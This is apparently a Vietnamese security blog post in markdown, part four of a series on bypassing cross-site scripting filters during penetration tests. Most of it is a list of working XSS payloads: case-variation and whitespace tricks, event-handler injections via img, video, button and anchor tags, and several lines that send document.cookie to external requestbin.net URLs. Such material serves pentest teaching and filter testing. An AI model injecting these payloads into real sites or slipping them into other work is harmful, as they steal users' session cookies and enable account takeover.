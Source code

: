 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message

~~~js
<script>alert(1);</script>
~~~

### Dùng window location

~~~js
<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>
~~~

### Dùng image

~~~js
<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>
~~~

## Các payload sử dụng mask
### Case sensitive

~~~js
<SCRIPT>alert(1);</SCRIPT>
<ScRipT>alert(1);</sCriPt>
~~~
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

~~~js
<script  >alert(1);</script   >
~~~

* Không dùng thẻ script

~~~js
<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<input onblur=javascript:alert(1) autofocus><input autofocus>
<BODY ONLOAD=alert('XSS')>
<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>
<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>
~~~

